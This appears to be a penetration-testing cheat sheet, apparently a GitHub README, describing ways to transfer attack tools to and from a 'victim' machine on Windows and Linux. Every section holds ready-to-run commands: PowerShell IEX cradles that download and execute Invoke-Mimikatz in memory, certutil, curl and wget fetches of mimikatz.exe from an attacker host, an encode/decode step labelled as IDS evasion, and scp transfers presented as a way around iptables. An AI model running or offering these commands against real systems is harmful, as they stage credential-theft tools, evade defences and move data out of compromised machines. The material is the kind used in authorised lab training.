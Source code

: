 # File-Transfert-Methods

# Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

# Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```

#### Bypass IPtable using SCP through SSH
```
In the case of IPtable restrict the possibility to upload a file on the victim machine.
If you have a ssh connection using a id-rsa key, you could try the SCP tool to upload the file through the SSH connection.

➤ Prerequisite : Have a ssh connection (id-rsa)

➤ Error :
wget -O test.txt http://192.168.1.1:443/test.txt
--2022-03-13-- http://192.168.1.1:443:test.txt
Connecting to 192.168.1.1:443 ...

➤ Command :
From the attacker machine, upload something on a the victim machine
root# scp -i ~/.ssh/id_rsa myfile.txt user@10.0.0.1

From the attacker machine, download something from the victim machine
root# scp myfile.txt user@10.0.0.1:/home/user
user@10.0.0.1's password:
OR for download a complete repository 
root# scp myfile.txt user@10.0.0.1:/home/user/* .

From the victim machine, upload something on the attacker machine
scp myfile.txt root@10.0.0.1:/root/ .
```
